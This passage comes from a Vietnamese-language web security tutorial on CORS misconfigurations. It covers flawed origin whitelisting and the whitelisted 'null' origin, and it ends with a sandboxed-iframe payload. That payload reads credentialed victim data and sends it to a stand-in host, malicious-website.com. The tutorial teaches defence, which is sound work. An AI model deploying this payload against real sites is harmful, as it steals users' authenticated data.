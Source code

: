 Một kẻ tấn công có thể đăng ký domain:

```
hackersnormal-website.com
```

để có được quyền truy cập.

Hoặc, giả sử một ứng dụng cấp quyền cho tất cả các domain bắt đầu bằng:

```
normal-website.com
```

Một kẻ tấn công có thể có được quyền truy cập bằng cách sử dụng domain:

```
normal-website.com.evil-user.net
```

## **Whitelisted null origin value**

Đặc tả cho header **Origin** cho phép giá trị `null`. Trình duyệt có thể gửi giá trị `null` trong header Origin trong một số tình huống bất thường:

- Chuyển hướng xuyên miền (cross-origin redirects).
- Các yêu cầu từ dữ liệu được tuần tự hóa (requests from serialized data).
- Yêu cầu sử dụng giao thức `file:`.
- Yêu cầu xuyên miền trong iframe bị sandbox (sandboxed cross-origin requests).

Một số ứng dụng có thể đưa origin `null` vào danh sách trắng để hỗ trợ phát triển cục bộ. Ví dụ, giả sử một ứng dụng nhận được yêu cầu xuyên miền sau:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Và máy chủ phản hồi với:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Trong tình huống này, một kẻ tấn công có thể sử dụng nhiều mánh khoé để sinh ra một yêu cầu xuyên miền có chứa giá trị `null` trong header Origin. Điều này sẽ thỏa điều kiện danh sách trắng, dẫn tới truy cập xuyên miền. Ví dụ, điều này có thể thực hiện bằng một iframe bị sandbox thực hiện yêu cầu xuyên miền theo dạng:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
